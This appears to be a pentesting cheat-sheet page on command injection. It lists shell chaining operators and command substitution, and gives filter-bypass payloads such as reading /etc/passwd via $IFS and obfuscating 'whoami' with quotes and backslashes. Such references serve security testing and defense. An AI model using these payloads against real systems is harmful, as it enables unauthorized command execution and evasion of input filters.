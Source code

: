 ```yaml
---
icon: terminal
---
```


# Command Injection

## Chaining and Invoking

```powershell
;    # Executes one command and then another
&    # Executes a command in the background, followed by the other one
|    # Redirects the output the first command as input to the second command
&&   # Executes the second command if the first command succeeds
||   # Executes the second command if the first command fails
```

Its also possible to inject command via **command substitution**, where the output of a command is captured and used in another context

```bash
$(command)    # Both windows and linux systems
`command`     # Only linux systems
```

## Bypasses

* [https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#common-limitations-bypasses](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#common-limitations-bypasses)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses)

### Space Bypass

Using **Internal Field Separator** `$IFS` to avoid using spaces on commands

```bash
cat${IFS}/etc/passwd
```

### Blacklisted Words

```bash
# Quotes
w'h'o'a'm'i'     # Both windows and linux systems
'w'h'o'a'm'i     # Only linux systems
wh''oami         # Both windows and linux systems

# Backslashes
\w\h\o\a\m\i     # Only linux systems
w\h\o\a\m\i      # Only linux systems

# $()
wh$()oami        # Only linux systems
wh$(echo oa)mi   # Only linux systems

# ``
wh``oami         # Only linux systems
wh`echo oa`mi    # Only linux systems

# $@
wh$@oami         # Only linux systems
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
